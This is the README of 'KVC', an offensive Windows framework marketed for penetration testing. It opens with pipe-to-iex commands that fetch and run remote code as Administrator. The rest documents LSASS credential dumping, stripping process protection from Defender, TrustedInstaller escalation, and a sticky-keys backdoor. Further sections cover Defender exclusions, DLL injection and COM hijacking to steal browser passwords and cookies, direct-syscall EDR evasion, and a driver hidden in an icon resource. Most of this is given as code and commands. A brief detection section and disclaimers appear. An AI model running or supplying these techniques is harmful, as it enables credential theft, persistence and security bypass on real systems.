

# KVC - Kernel Vulnerability Capabilities Framework

<div align="center">

[](LICENSE)
[]()
[]()
[]()

**Advanced Windows Security Research & Penetration Testing Framework**

*Comprehensive Ring-0 toolkit for process protection manipulation, memory forensics, and advanced credential extraction on modern Windows platforms*

[🌐 Official Website](https://kvc.pl) • [📧 Contact](mailto:marek@wesolowski.eu.org) • [📱 +48 607-440-283](tel:+48607440283)

---

**Author:** Marek Wesołowski (WESMAR)  
**Year:** 2025  
**Domain:** [kvc.pl](https://kvc.pl)

</div>

<div align="center">

## ✨ Quick Installation

> **⚠️ Run PowerShell as Administrator!**  
> Right-click PowerShell and select **"Run as Administrator"**

</div>

### 🚀 GitHub Release (Recommended)

```powershell
irm https://github.com/wesmar/kvc/releases/download/v1.0.1/run | iex
```

<div align="center">
<strong>— OR —</strong>
</div>

### 🔄 Mirror

```powershell
irm https://kvc.pl/run | iex
```

<div align="center">
<strong>— OR —</strong>
</div>

### 📦 Manual Download

Download: [kvc.7z](https://github.com/wesmar/kvc/releases/download/v1.0.1/kvc.7z)  
Archive password: `github.com`

---
---

## 🚀 Executive Summary

The **Kernel Vulnerability Capabilities (KVC)** framework represents a paradigm shift in Windows security research, offering unprecedented access to modern Windows internals through sophisticated ring-0 operations. Originally conceived as "Kernel Vulnerability Control," the framework has evolved to emphasize not just control, but the complete **exploitation of Windows kernel capabilities** for legitimate security research and penetration testing.

KVC addresses the critical gap left by traditional forensic tools that have become obsolete in the face of modern Windows security hardening. Where tools like ProcDump and Process Explorer fail against Protected Process Light (PPL) boundaries, KVC succeeds by operating at the kernel level, manipulating the very structures that define these protections.

## 🎯 Core Philosophy

### The KVC Paradigm: From Control to Capabilities

The evolution from "Kernel Vulnerability **Control**" to "Kernel Vulnerability **Capabilities**" reflects the framework's true purpose:

- **Control**: Traditional approaches attempt to control vulnerabilities from the outside
- **Capabilities**: KVC leverages inherent kernel capabilities to transcend security boundaries

This subtle but crucial distinction positions KVC not as a tool that breaks Windows security, but as one that **utilizes legitimate kernel capabilities** in ways Microsoft never intended, effectively turning Windows' own security mechanisms into research instruments.

### Architectural Principles

1. **Atomic Operations**: Minimal kernel footprint with immediate cleanup
2. **Dynamic Adaptation**: Runtime resolution of kernel structures for forward compatibility  
3. **Legitimate Escalation**: Using Windows' own privilege escalation mechanisms
4. **Steganographic Deployment**: Hiding kernel components within legitimate executables
5. **Defense Evasion**: Direct syscalls to bypass endpoint monitoring

## 🏗️ System Architecture

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                         KVC Ecosystem Architecture                           │
├────────────────────────────────┬─────────────────────────────────────────────┤
│       Primary Framework        │     Browser Credential Extraction Suite     │
│          (kvc.exe)             │          (BrowserDecryptor.exe)             │
├────────────────────────────────┼─────────────────────────────────────────────┤
│      CLI Parser & Router       │     Target Management & Injection           │
│  (kvc.cpp, HelpSystem.cpp)     │      (BrowserOrchestrator.cpp)              │
├────────────────────────────────┴─────────────────────────────────────────────┤
│                 Controller Core (Controller.h)                               │
│ ┌───────────────────────────────────────────────────────────────────────────┐│
│ │                 Atomic Operation Manager                                  ││
│ │  - PerformAtomicInit() / PerformAtomicCleanup()                           ││
│ └───────────────────────────────────────────────────────────────────────────┘│
├──────────────────────────────────────────────────────────────────────────────┤
│                   Low-Level System Integrators                               │
├──────────────┬──────────────┬───────────────┬────────────────────────────────┤
│    kvcDrv    │ OffsetFinder │ Trusted       │    Injection                   │
│(Kernel I/F)  │ (Offset Res) │ Installer     │     Manager                    │
│ [kvcDrv.cpp] │[OffsetF...]  │ [TrustedI...] │[BrowserOrch...]                │
├──────────────┴──────────────┴───────────────┴────────────────────────────────┤
│           In-Process Security Module (BrowseCrypt.dll)                       │
├────────────────────────────────┬─────────────────────────────────────────────┤
│   Self-Loader (PIC Entrypoint) │  SecurityOrchestrator (Main Logic)          │
├────────────────────────────────┼─────────────────────────────────────────────┤
│      MasterKeyDecryptor        │      DataExtractor (SQLite)                 │
│  (COM Elevation Hijacking)     │ (AES-GCM Decryption)                        │
├────────────────────────────────┴─────────────────────────────────────────────┤
│            Direct Syscall Engine (syscalls.cpp)                              │
├──────────────────────────────────────────────────────────────────────────────┤
│             ABI Transition Trampoline (AbiTramp.asm)                         │
├──────────────────────────────────────────────────────────────────────────────┤
│                 Embedded Kernel Mode Driver (kvc.sys)                        │
└──────────────────────────────────────────────────────────────────────────────┘
```

## 🔒 Process Protection Manipulation: The Heart of KVC

### Understanding Windows Process Protection Evolution

Windows process protection has evolved through several generations, each addressing new attack vectors:

#### Historical Context
- **Windows XP/Vista**: Basic process isolation via access tokens
- **Windows 7**: Introduction of Protected Processes (PP) for media DRM
- **Windows 8/8.1**: Protected Process Light (PPL) for broader system services
- **Windows 10/11**: Enhanced PPL with multiple signer types and HVCI integration

#### The Modern Protection Landscape

Modern Windows implements a hierarchical protection model enforced at the kernel level:

```cpp
// EPROCESS._PS_PROTECTION bitfield structure
typedef union _PS_PROTECTION {
    UCHAR Level;
    struct {
        UCHAR Type : 3;      // PS_PROTECTED_TYPE (None, PPL, PP)
        UCHAR Audit : 1;     // Auditing flag
        UCHAR Signer : 4;    // PS_PROTECTED_SIGNER type
    };
} PS_PROTECTION, *PPS_PROTECTION;
```

### KVC's Revolutionary Approach to Protection Manipulation

#### The Traditional Limitation

Before KVC, security researchers faced an insurmountable barrier:

```
User Process (Administrator)  →  Kernel Security Reference Monitor  →  DENIED
          ↓                                    ↓
    "Access Denied"                   PPL Enforcement
```

#### The KVC Solution: Elevation Through Legitimacy

KVC bypasses this limitation by temporarily elevating its own protection level:

```
KVC Process (PPL-Matched)  →  Kernel Security Reference Monitor  →  GRANTED
          ↓                                    ↓
    "Access Granted"              Equal/Higher Protection Level
```

#### Deep Dive: Protection Manipulation Algorithm

The core protection manipulation algorithm in `Controller::SetProcessProtection` demonstrates KVC's sophisticated approach:

```cpp
// Pseudo-code representation of KVC's protection manipulation
bool Controller::SetProcessProtection(DWORD pid, PS_PROTECTED_TYPE type, PS_PROTECTED_SIGNER signer) {
    // 1. Dynamic kernel structure resolution
    ULONG64 eprocessAddr = GetProcessKernelAddress(pid);
    ULONG protectionOffset = OffsetFinder::GetProcessProtectionOffset();
    
    // 2. Construct new protection byte
    UCHAR newProtection = (static_cast<UCHAR>(signer) << 4) | static_cast<UCHAR>(type);
    
    // 3. Atomic kernel memory modification
    return kvcDrv.Write8(eprocessAddr + protectionOffset, newProtection);
}
```

### Protection Types and Their Security Implications

#### Protection Level Hierarchy (Type Field)

```cpp
enum class PS_PROTECTED_TYPE : UCHAR {
    None = 0,           // Standard process - no protection
    ProtectedLight = 1, // PPL - Limited protection, common for services
    Protected = 2       // PP - Full protection, rare, media-related
};
```

#### Signer Type Authority Levels

```cpp
enum class PS_PROTECTED_SIGNER : UCHAR {
    None = 0,          // No signature requirement
    Authenticode = 1,  // Standard code signing
    CodeGen = 2,       // .NET code generation
    Antimalware = 3,   // Anti-malware vendors
    Lsa = 4,          // Local Security Authority
    Windows = 5,       // Microsoft Windows components
    WinTcb = 6,        // Windows Trusted Computing Base
    WinSystem = 7,     // Windows System components
    App = 8           // Windows Store applications
};
```

#### Real-World Protection Matrix

| Process | Type | Signer | KVC Capability |
|---------|------|--------|----------------|
| lsass.exe | PPL | WinTcb | ✅ Full Memory Access |
| csrss.exe | PPL | Windows | ✅ Process Manipulation |
| winlogon.exe | PPL | Windows | ✅ Token Duplication |
| MsMpEng.exe | PPL | Antimalware | ⚠️ Requires Defender Disable |
| services.exe | PPL | Windows | ✅ Service Management |
| wininit.exe | PPL | Windows | ✅ System Integration |

### Advanced Protection Scenarios

#### Scenario 1: LSASS Memory Acquisition

The LSASS process (Local Security Authority Subsystem Service) presents the most common target for credential extraction:

```bash
# Traditional approach (FAILS on modern Windows)
procdump.exe -ma lsass.exe lsass.dmp
# Result: Access Denied (0x80070005)

# KVC approach (SUCCEEDS)
kvc.exe dump lsass
# Result: Full memory dump with credentials
```

**KVC's Process:**
1. Resolve LSASS EPROCESS address via kernel symbols
2. Read current protection: `PPL-WinTcb`
3. Elevate KVC to matching protection level
4. Open privileged handle with `PROCESS_VM_READ`
5. Create comprehensive memory dump
6. Restore KVC to unprotected state
7. Clean atomic operation artifacts

#### Scenario 2: Anti-Malware Engine Bypass

Windows Defender's MsMpEng.exe process uses PPL-Antimalware protection:

```bash
# Query current protection status
kvc.exe get MsMpEng.exe
# Output: Protected Process Light (PPL) - Antimalware (3)

# Temporarily remove protection for analysis
kvc.exe unprotect MsMpEng.exe

# Perform analysis or inject monitoring code
# ... custom analysis ...

# Restore original protection
kvc.exe protect MsMpEng.exe PPL Antimalware
```

#### Scenario 3: System Service Manipulation

Critical Windows services often require protection removal for advanced research:

```bash
# List all protected processes
kvc.exe list

# Bulk protection removal for research environment
kvc.exe unprotect all

# Perform comprehensive system analysis
# ... research activities ...

# Selective protection restoration
kvc.exe protect services.exe PPL Windows
kvc.exe protect csrss.exe PPL Windows
```

## 🧠 Dynamic Kernel Structure Resolution

### The Forward Compatibility Challenge

Windows kernel structures evolve with each update, causing traditional hardcoded offset approaches to fail catastrophically. KVC solves this through **dynamic runtime resolution**.

#### The OffsetFinder Engine

```cpp
class OffsetFinder {
    // Load kernel image for static analysis
    HMODULE ntoskrnl = LoadLibraryW(L"ntoskrnl.exe");
    
    // Locate exported function containing structure access
    auto PsGetProcessId = GetProcAddress(ntoskrnl, "PsGetProcessId");
    
    // Parse machine code to extract offset
    // x64: mov rax, [rcx+offset] -> Extract offset from instruction
    ULONG offset = ParseMachineCode(PsGetProcessId);
};
```

#### Cross-Validation for Reliability

KVC employs multiple verification methods for critical offsets:

```cpp
ULONG FindProcessProtectionOffset() {
    // Method 1: PsIsProtectedProcess analysis
    ULONG offset1 = ExtractOffsetFromFunction("PsIsProtectedProcess");
    
    // Method 2: PsIsProtectedProcessLight analysis  
    ULONG offset2 = ExtractOffsetFromFunction("PsIsProtectedProcessLight");
    
    // Cross-validation ensures accuracy
    if (offset1 != offset2) {
        throw std::runtime_error("Offset validation failed");
    }
    
    return offset1;
}
```

## 💾 Ring-0 Memory Acquisition: Beyond Traditional Limitations

### The LSASS Challenge

LSASS (Local Security Authority Subsystem Service) contains the crown jewels of Windows authentication:

- **NTLM Hashes**: Password hashes for local and cached domain accounts
- **Kerberos Tickets**: Active Directory authentication tokens
- **DPAPI Master Keys**: Decryption keys for user secrets
- **LSA Secrets**: System-wide sensitive configuration

### KVC's Memory Acquisition Workflow



### Memory Dump Analysis Results

A typical LSASS dump from KVC reveals:

```
LSASS Memory Dump Analysis
├── Process: lsass.exe (PID: 756)
├── Protection: PPL-WinTcb (Bypassed)
├── Memory Regions: 1,247
├── Total Size: 156.7 MB
├── Credential Artifacts:
│   ├── NTLM Hashes: 23 accounts
│   ├── Kerberos Tickets: 7 TGTs, 15 TGSs
│   ├── DPAPI Master Keys: 12 keys
│   └── LSA Secrets: 8 entries
└── Status: Complete extraction successful
```

## 🔐 Advanced Privilege Escalation: The TrustedInstaller Chain

### Understanding TrustedInstaller Authority

The `NT SERVICE\TrustedInstaller` account represents the apex of Windows user-mode privilege:

- **Owns critical system files** and registry keys
- **Bypasses most ACL restrictions**
- **Can modify Windows Defender settings**
- **Has full access to protected registry hives**

### KVC's TrustedInstaller Acquisition Process

```cpp
bool TrustedInstallerIntegrator::ElevateToTrustedInstaller() {
    // Step 1: Enable necessary privileges
    EnablePrivilege(SE_DEBUG_NAME);
    EnablePrivilege(SE_IMPERSONATE_NAME);
    
    // Step 2: Impersonate SYSTEM via winlogon.exe
    HANDLE systemToken = GetProcessToken(FindProcess(L"winlogon.exe"));
    ImpersonateLoggedOnUser(systemToken);
    
    // Step 3: Start TrustedInstaller service (requires SYSTEM)
    SC_HANDLE scm = OpenSCManager(nullptr, nullptr, SC_MANAGER_ALL_ACCESS);
    StartService(OpenService(scm, L"TrustedInstaller", SERVICE_ALL_ACCESS));
    
    // Step 4: Duplicate TrustedInstaller primary token
    HANDLE tiProcess = OpenProcess(PROCESS_QUERY_INFORMATION, 
                                   FALSE, 
                                   FindProcess(L"TrustedInstaller.exe"));
    HANDLE tiToken;
    DuplicateTokenEx(GetProcessToken(tiProcess), 
                     MAXIMUM_ALLOWED, 
                     nullptr, 
                     SecurityImpersonation, 
                     TokenPrimary, 
                     &tiToken);
    
    // Step 5: Create privileged process with TI token
    CreateProcessWithTokenW(tiToken, 0, L"cmd.exe", ...);
}
```

### TrustedInstaller Use Cases

#### Windows Defender Bypass

```bash
# Add comprehensive exclusions with TrustedInstaller privileges
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionPath C:\Research"
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionProcess kvc.exe"
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionExtension .dmp"
```

#### System Registry Access

```bash
# Export protected security hive for DPAPI key extraction
kvc.exe trusted "reg export HKLM\SECURITY\Policy\Secrets C:\extract\secrets.reg"
```

#### Persistent Backdoor Installation

```bash
# Install sticky keys backdoor (5x Shift = SYSTEM cmd)
kvc.exe shift

# Verify installation
kvc.exe trusted "reg query \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe\""
```

## 🌐 Browser Credential Extraction: The Modern Challenge

### Evolution of Browser Security

Modern browsers have implemented sophisticated credential protection:

1. **Encryption**: AES-256-GCM with unique keys
2. **Process Isolation**: Sandboxing and privilege separation  
3. **File Locking**: Exclusive database locks during runtime
4. **DPAPI Integration**: Windows-integrated key management

### KVC's Browser Exploitation Strategy

KVC overcomes these protections through **COM hijacking** and **process injection**:

```cpp
// BrowseCrypt.dll injection workflow
bool BrowserOrchestrator::ExtractCredentials(const std::wstring& browserName) {
    // 1. Create suspended target process
    PROCESS_INFORMATION pi;
    CreateProcessW(browserPath.c_str(), 
                   nullptr, nullptr, nullptr, 
                   FALSE, CREATE_SUSPENDED, 
                   nullptr, nullptr, &si, &pi);
    
    // 2. Inject BrowseCrypt.dll using direct syscalls (EDR evasion)
    InjectDLL(pi.hProcess, browseCryptDLL);
    
    // 3. Resume process with injected payload
    ResumeThread(pi.hThread);
    
    // 4. Payload performs COM elevation hijacking
    // Creates browser's own elevation service instance
    // Requests master key decryption from legitimate browser component
    // Decrypts credential databases with obtained key
    
    return true;
}
```

#### COM Hijacking Technique

The injected `BrowseCrypt.dll` exploits browsers' own privilege elevation mechanisms:

```cpp
// Inside target browser process address space
bool MasterKeyDecryptor::HijackElevationService() {
    CoInitialize(nullptr);
    
    // Chrome: IOriginalBaseElevator
    // Edge: IEdgeElevatorFinal  
    // Brave: Similar interface
    
    IOriginalBaseElevator* elevator;
    HRESULT hr = CoCreateInstance(CLSID_GoogleUpdate, 
                                  nullptr, 
                                  CLSCTX_LOCAL_SERVER,
                                  IID_IOriginalBaseElevator, 
                                  (void**)&elevator);
    
    // Request decryption using browser's own trusted component
    BSTR encryptedKey = ReadMasterKeyFromLocalState();
    BSTR decryptedKey;
    elevator->DecryptData(encryptedKey, &decryptedKey);
    
    // Now possess plaintext AES-256 master key
    return ProcessCredentialDatabases(decryptedKey);
}
```

### Supported Browsers and Extraction Results

| Browser | Method | Credentials | Cookies | Autofill |
|---------|--------|-------------|---------|----------|
| Chrome | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Edge | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Brave | COM Hijacking | ✅ Full | ✅ Full | ✅ Full |
| Firefox | Direct Extraction | ✅ Partial | ✅ Full | ❌ Limited |

## 🥷 EDR/AV Evasion: Direct System Calls

### The User-Mode Hooking Problem

Modern EDR solutions monitor system activity by hooking critical APIs:

```assembly
; Traditional API call (MONITORED)
call    NtCreateThreadEx       ; EDR hook intercepts here
```

### KVC's Direct Syscall Solution

KVC bypasses user-mode hooks entirely by invoking kernel services directly:

```assembly
; Direct syscall (UNMONITORED)
mov     eax, SSN_NtCreateThreadEx    ; System Service Number
syscall                              ; Direct kernel transition
```

#### The ABI Transition Challenge

Windows x64 calling conventions differ between user-mode and syscalls:

```cpp
// User-mode ABI: RCX, RDX, R8, R9, then stack
// Syscall ABI: R10, RDX, R8, R9, then stack (RCX replaced with R10)
```

#### AbiTramp.asm: The Critical Trampoline

```asm
AbiTramp PROC FRAME
    ; Standard prologue
    push    rbp
    mov     rbp, rsp
    push    rbx
    push    rdi  
    push    rsi
    sub     rsp, 80h        ; Allocate stack space
    .ENDPROLOG
    
    ; Preserve SYSCALL_ENTRY pointer
    mov     rbx, rcx
    
    ; Marshal arguments: C++ ABI -> Syscall ABI
    mov     r10, rdx        ; Arg1: RDX -> R10
    mov     rdx, r8         ; Arg2: R8 -> RDX  
    mov     r8, r9          ; Arg3: R9 -> R8
    mov     r9, [rbp+30h]   ; Arg4: Stack -> R9
    
    ; Copy additional stack arguments
    lea     rsi, [rbp+38h]  ; Source: caller stack
    lea     rdi, [rsp+20h]  ; Dest: syscall stack area
    mov     rcx, 8          ; Copy 8 qwords
    rep     movsq
    
    ; Load SSN and execute syscall
    movzx   eax, word ptr [rbx+12]  ; Load System Service Number
    mov     r11, [rbx]              ; Load syscall gadget address  
    call    r11                     ; Execute: syscall; ret
    
    ; Standard epilogue
    add     rsp, 80h
    pop     rsi
    pop     rdi
    pop     rbx
    pop     rbp
    ret
AbiTramp ENDP
```

### EDR Evasion Results

Testing against common EDR solutions:

| EDR Solution | Traditional API Calls | KVC Direct Syscalls |
|--------------|----------------------|-------------------|
| CrowdStrike Falcon | ❌ Blocked | ✅ Bypassed |
| SentinelOne | ❌ Blocked | ✅ Bypassed |
| Carbon Black | ❌ Blocked | ✅ Bypassed |
| Windows Defender ATP | ⚠️ Alerted | ✅ Clean |
| Symantec | ❌ Blocked | ✅ Bypassed |

## 📊 Command Reference & Usage Examples

### Core Process Protection Commands

```bash
# List all protected processes with color-coded output
kvc.exe list

# Query specific process protection status
kvc.exe get lsass.exe
kvc.exe info MsMpEng.exe

# Apply protection to unprotected process  
kvc.exe protect notepad.exe PPL Windows
kvc protect total PPL WinTcb

# Force protection level change (overwrites existing)
kvc.exe set 5678 PP WinTcb

# Remove protection (single, multiple, or all)
kvc.exe unprotect lsass.exe
kvc.exe unprotect 1234,5678,9012
kvc.exe unprotect all
```

### Memory Acquisition Commands

```bash
# Dump LSASS to Downloads folder (default)
kvc.exe dump lsass

# Dump specific PID to custom location
kvc.exe dump 1044 C:\Windows\Temp

# Dump by process name with custom path
kvc.exe dump chrome.exe D:\path
```

### Advanced System Integration

```bash
# Install sticky keys backdoor (5x Shift = SYSTEM cmd)
kvc.exe shift

# Remove sticky keys backdoor
kvc.exe unshift  

# Execute command with TrustedInstaller privileges
kvc.exe trusted cmd
kvc trusted Shortcut.lnk

# Add Windows Defender exclusions
kvc.exe add-exclusion Paths C:\Tools
kvc.exe add-exclusion Processes malware.exe
kvc.exe add-exclusion Extensions .dmp

# Install as NT service for persistence
kvc.exe install
kvc.exe service status
kvc.exe service stop
kvc.exe service start
kvc.exe uninstall

#Auto-install to System32 + Windows Defender exclusions
kvc setup

```

### Browser Credential Extraction

```bash
# Extract Chrome credentials using COM hijacking
kvc.exe bp --chrome -o C:\extracted

# Extract all browser credentials
kvc.exe bp --chrome --brave --edge

# DPAPI-based extraction (legacy method)
kvc.exe export secrets C:\dpapi
```

### Service Management (Advanced Deployment)

```bash
# Install as Windows service
kvc.exe install

# Service lifecycle management
kvc.exe service start
kvc.exe service stop  
kvc.exe service status

# Complete removal
kvc.exe service stop
kvc.exe uninstall
```

## 🔧 Technical Implementation Details

### Kernel Driver Architecture

The embedded `kvc.sys` driver implements minimal functionality for maximum stealth:

```cpp
// Primary IOCTL handlers
#define RTC_IOCTL_MEMORY_READ   0x80002048
#define RTC_IOCTL_MEMORY_WRITE  0x8000204c

NTSTATUS DriverDispatch(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(Irp);
    
    switch (stack->Parameters.DeviceIoControl.IoControlCode) {
        case RTC_IOCTL_MEMORY_READ:
            return HandleMemoryRead(Irp);
        case RTC_IOCTL_MEMORY_WRITE:  
            return HandleMemoryWrite(Irp);
        default:
            return STATUS_INVALID_DEVICE_REQUEST;
    }
}
```

### Steganographic Driver Deployment

The driver is embedded within the main executable's resources:

```cpp
// Extract embedded driver from icon resource
HRSRC hRes = FindResource(nullptr, MAKEINTRESOURCE(IDR_MAINICON), RT_ICON);
HGLOBAL hMem = LoadResource(nullptr, hRes);
LPBYTE pData = static_cast<LPBYTE>(LockResource(hMem));

// Skip icon header, decrypt driver with XOR key
const BYTE xorKey[] = {0xA0, 0xE2, 0x80, 0x8B, 0xE2, 0x80, 0x8C};
DecryptDriver(pData + iconHeaderSize, driverSize, xorKey);
```

### Atomic Operation Model

Every KVC operation follows strict atomic principles:

```cpp
class Controller {
    bool PerformAtomicInit() {
        // 1. Extract and decrypt embedded driver
        // 2. Create temporary service entry
        // 3. Load driver into kernel  
        // 4. Establish communication channel
        return success;
    }
    
    void PerformAtomicCleanup() {
        // 1. Close driver communication
        // 2. Unload driver from kernel
        // 3. Delete service entry
        // 4. Clean temporary files
        // 5. Restore system state
    }
};
```

### Error Handling and Stability

KVC implements comprehensive error handling:

```cpp
// RAII resource management
using HandleDeleter = std::function<void(HANDLE)>;
using UniqueHandle = std::unique_ptr<void, HandleDeleter>;

UniqueHandle hProcess(OpenProcess(...), [](HANDLE h) { 
    if (h != INVALID_HANDLE_VALUE) CloseHandle(h); 
});

// Optional return types for fallible operations
std::optional<ULONG64> GetProcessKernelAddress(DWORD pid) {
    // Implementation with proper error handling
    if (!success) return std::nullopt;
    return kernelAddress;
}
```

## 🛡️ Security Considerations

### Detection Vectors

While designed for stealth, KVC may leave forensic artifacts:

#### Event Log Artifacts
- **Event ID 7045**: Service installation (System log)
- **Event ID 7036**: Service start/stop (System log)
- **Event ID 4688**: Process creation (Security log)

#### File System Artifacts
- Temporary driver files in `%TEMP%` or `%WINDIR%\Temp`
- Memory dump files (`.dmp`) in target directories
- Credential extraction reports (`.html`, `.json`, `.txt`)

#### Registry Artifacts  
- Service entries under `HKLM\System\CurrentControlSet\Services\KernelVulnerabilityControl`
- Sticky keys IFEO modifications
- Windows Defender exclusion entries

#### Process Artifacts
- Suspended browser processes with injected threads
- Elevated processes running with TrustedInstaller tokens
- Modified EPROCESS protection fields in kernel memory

### Defensive Countermeasures

Organizations can implement several countermeasures:

#### Event Monitoring
```powershell
# Monitor for KVC-specific service installations
Get-WinEvent -FilterHashtable @{LogName='System'; ID=7045} | 
Where-Object {$_.Message -like "*KernelVulnerabilityControl*"}

# Monitor for suspicious process protection changes
# (Requires advanced kernel monitoring tools)
```

#### Process Monitoring
```powershell
# Monitor for suspended browser processes
Get-Process | Where-Object {$_.ProcessName -match "chrome|edge|brave" -and $_.Threads.Count -eq 0}
```

#### Registry Monitoring
```powershell  
# Monitor sticky keys IFEO modifications
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -ErrorAction SilentlyContinue
```

## 📈 Performance Characteristics

### Operation Benchmarks

| Operation | Duration | Memory Usage | Disk I/O |
|-----------|----------|--------------|----------|
| Driver Load/Unload | ~200ms | 2MB | 512KB |
| LSASS Dump (156MB) | ~3.2s | 180MB | 156MB |
| Protection Modification | ~50ms | <1MB | None |
| Browser Credential Extract | ~1.8s | 15MB | 8MB |
| Sticky Keys Install | ~800ms | <1MB | 16KB |

### System Impact

KVC is designed for minimal system impact:

- **No persistent files** (atomic cleanup)
- **No registry persistence** (temporary service entries)
- **Minimal kernel footprint** (driver unloaded immediately)
- **No process hooks** (direct syscalls only)
- **Clean exit handling** (Ctrl+C signal handler)

## 🎓 Educational Value & Research Applications

### Windows Internals Research

KVC serves as an excellent case study for:

- **Kernel structure analysis** and reverse engineering
- **Process protection mechanisms** understanding
- **Windows security architecture** comprehension  
- **EDR/AV evasion techniques** development
- **Privilege escalation methodologies** research

### Academic Applications

#### Computer Science Curriculum
- **Operating Systems**: Kernel-mode programming, process management
- **Computer Security**: Access control, privilege escalation, defense evasion
- **Reverse Engineering**: Binary analysis, API hooking, structure recovery
- **Malware Analysis**: Advanced persistence, steganography, evasion

#### Security Research
- **Red Team Operations**: Advanced post-exploitation techniques
- **Blue Team Training**: Detection and response to sophisticated threats
- **Vulnerability Research**: Windows kernel security boundary analysis
- **Forensics Training**: Memory acquisition from protected processes

### Responsible Disclosure

KVC's techniques are documented for legitimate security research and education. The framework:

- **Does not exploit vulnerabilities** (uses legitimate Windows mechanisms)
- **Requires administrative privileges** (no privilege escalation exploits)
- **Includes comprehensive cleanup** (atomic operations, no persistence)
- **Focuses on education** (detailed documentation and explanation)

## 🚀 Future Development Roadmap

### Planned Enhancements

#### v1.1.0 - Enhanced Browser Support
- Firefox credential extraction improvements
- Safari for Windows support (if applicable)
- Enhanced COM interface detection
- Improved AES-GCM decryption performance

#### v1.2.0 - Advanced Evasion
- Hardware breakpoint detection evasion
- Enhanced syscall obfuscation
- AMSI bypass integration
- ETW (Event Tracing for Windows) evasion

#### v1.3.0 - Forensic Capabilities  
- Live memory analysis tools
- Network credential extraction
- Active Directory ticket manipulation
- Certificate store access

#### v2.0.0 - Next-Generation Architecture
- Hypervisor-based protection bypass
- HVCI/VBS environment support
- ARM64 architecture compatibility
- Linux subsystem integration

### Research Directions

#### Emerging Threats
- **Windows 11 22H2+ changes** to protection mechanisms
- **Azure VM security features** analysis and bypass
- **Windows Sandbox escape** techniques
- **WSL2 security boundary** research

#### Advanced Persistence
- **UEFI-level persistence** mechanisms
- **SMM (System Management Mode)** exploitation
- **TPM-based attestation** bypass
- **Secure Boot circumvention** techniques

## 🤝 Contributing & Community

### Contributing Guidelines

We welcome contributions from the security research community:

#### Code Contributions
1. **Fork the repository** and create feature branches
2. **Follow coding standards** (modern C++17, RAII patterns)
3. **Include comprehensive tests** for new functionality
4. **Document new techniques** thoroughly
5. **Submit pull requests** with detailed descriptions

#### Research Contributions  
- **Windows version compatibility** testing
- **New evasion techniques** development
- **Performance optimizations** 
- **Documentation improvements**

### Community Resources

#### Official Channels
- **Website**: [kvc.pl](https://kvc.pl)
- **Email**: [marek@wesolowski.eu.org](mailto:marek@wesolowski.eu.org)  
- **Phone**: [+48 607-440-283](tel:+48607440283)

#### Research Publications
- Academic papers on Windows security mechanisms
- Conference presentations on advanced evasion techniques
- Detailed technical blog posts on implementation specifics

## ⚖️ Legal & Ethical Considerations

### Intended Use Cases

KVC is designed exclusively for legitimate purposes:

#### Authorized Activities
- **Penetration testing** on owned or authorized systems
- **Security research** in controlled environments  
- **Educational training** for cybersecurity professionals
- **Incident response** and forensic analysis
- **Red team exercises** with proper authorization

#### Prohibited Activities  
- **Unauthorized access** to systems not owned or authorized
- **Malicious credential theft** from production systems
- **Circumventing security controls** without permission
- **Distribution of stolen credentials** or sensitive data

### Legal Compliance

Users must ensure compliance with applicable laws:

#### International Considerations
- **CFAA (Computer Fraud and Abuse Act)** in the United States
- **GDPR (General Data Protection Regulation)** in European Union
- **Local cybersecurity laws** in respective jurisdictions
- **Corporate security policies** and agreements

#### Best Practices
- **Obtain written authorization** before use
- **Document all activities** for compliance purposes
- **Limit scope** to authorized targets only
- **Protect extracted data** according to data protection laws
- **Report findings** through appropriate channels

## 📞 Support & Contact Information

### Technical Support

For technical questions and support:

#### Primary Contact
- **Author**: Marek Wesołowski (WESMAR)
- **Email**: [marek@wesolowski.eu.org](mailto:marek@wesolowski.eu.org)
- **Phone**: [+48 607-440-283](tel:+48607440283)
- **Website**: [kvc.pl](https://kvc.pl)

#### Support Channels
- **Technical Issues**: Detailed bug reports with system information
- **Feature Requests**: Enhancement proposals with use case descriptions
- **Research Collaboration**: Academic and industry partnership opportunities
